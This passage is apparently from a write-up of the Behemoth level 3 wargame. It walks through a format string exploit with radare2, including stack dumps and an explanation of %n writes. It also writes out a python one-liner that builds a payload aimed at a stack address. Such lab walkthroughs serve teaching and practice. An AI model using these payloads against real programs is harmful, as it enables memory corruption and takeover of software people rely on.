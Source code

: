 ```bash
0xffffd550  0000 0000 0100 0000 18d9 fff7 9fd5 ffff  ................
0xffffd560  9ed5 ffff 0100 0000 bf00 0000 3369 eaf7  ............3i..
0xffffd570  9ed5 ffff 9cd6 ffff e000 0000 0000 0000  ................
0xffffd580  00d0 fff7 18d9 fff7 a0d5 ffff 6282 0408  ............b...
0xffffd590  0000 0000 34d6 ffff 0070 fcf7 87c2 0000  ....4....p......
0xffffd5a0  ffff ffff 2f00 0000 c83d e2f7 a851 fdf7  ..../....=...Q..
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 2af3 e2f7  .....p......*...
0xffffd5c0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5d0  0100 0000 94d6 ffff                      ........
[0x080484b2]> px 4 @ 0x41414141
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x41414141  ffff ffff                                ....
[0x080484b2]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414141 code=1 ret=0
[0xf7e5ae2f]> 
```

We read 5 words from the stack. If we were to replace %n with %08x, we would read out "0x41414141". Instead though, we use the %n specifier which means that the number of bytes printed up to this point should be stored at the value passed. Therefore, this tells the program to write a value of 28 at the address 0x41414141. However, this program doesn't have access to that memory address and therefore causes the program to segfault. If we change our "AAAA" to the address we want to change, we should write 28 to that address. 

Let's use radare's "profile" feature to pass in input that contains our desired address.

I create a temporary directory within /tmp/ and paste the following within a "profile.rr2" file:
```bash
#!/usr/bin/rarun2
program=/behemoth/behemoth3
stdin=/tmp/smhbehemoth3/input.txt
```
This causes radare to read from "/tmp/smhbehemoth3/input.txt" when the program attempts to read from stdin. Make sure to change the file path to your temporary directory and then create input.txt with the input you want to use.

```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*5 + "%n"' > input.txt
behemoth3@behemoth:/tmp/smhbehemoth3$ cat input.txt 
����%08x.%08x.%08x.%08x.%08x.%n
behemoth3@behemoth:/tmp/smhbehemoth3$ 
```

Great should be all set now. Let's rerun radare in debug mode and setup a breakpoint right after it reads in our input and after it prints out input.

```
behemoth3@behemoth:/tmp/smhbehemoth3$ r2 -de dbg.profile=profile.rr2 /behemoth/behemoth3 
Process with PID 29548 started...
= attach 29548 29548
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
 -- Most of commands accept '?' as a suffix. Use it to understand how they work :)
[0xf7fdaa20]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
= attach 29548 29548
29548
[0xf7fdaa20]> pdf @ main
```